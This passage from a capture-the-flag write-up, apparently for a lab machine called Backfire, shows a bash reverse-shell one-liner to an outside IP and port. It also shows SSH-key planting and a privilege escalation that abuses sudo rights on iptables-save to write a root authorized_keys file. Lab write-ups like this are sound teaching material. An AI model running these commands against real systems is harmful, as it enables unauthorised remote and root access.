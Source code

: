 ```
bash -c 'bash -i >& /dev/tcp/10.10.14.158/9001 0>&1'
```

we get a shell as `sergej`

Alternatively copying our `id_rsa.pub` into `/home/sergej/.ssh/authorized_keys` allows us to ssh into the box as sergej.
# Root
Checking for privileges we found that Sergej can run `iptables` and `iptables-save` as root:

```
sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save
```
looking around for privilege escalation using `iptables` and `iptables-save` I found this:

[A journey from sudo iptables to local privilege escalation](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/)

Following along we are able to create a malicious ip-tables record however I am unable to write to `/etc/passwd` as is suggested in the blogpost:

```
sudo iptables-save -f /etc/passwd
Failed to open file, error: Operation not permitted
```

so instead I try to inject my public key into `/root/.ssh/authorized_keys` which allows us to ssh into the box:

```
root@backfire:~# whoami
root
```
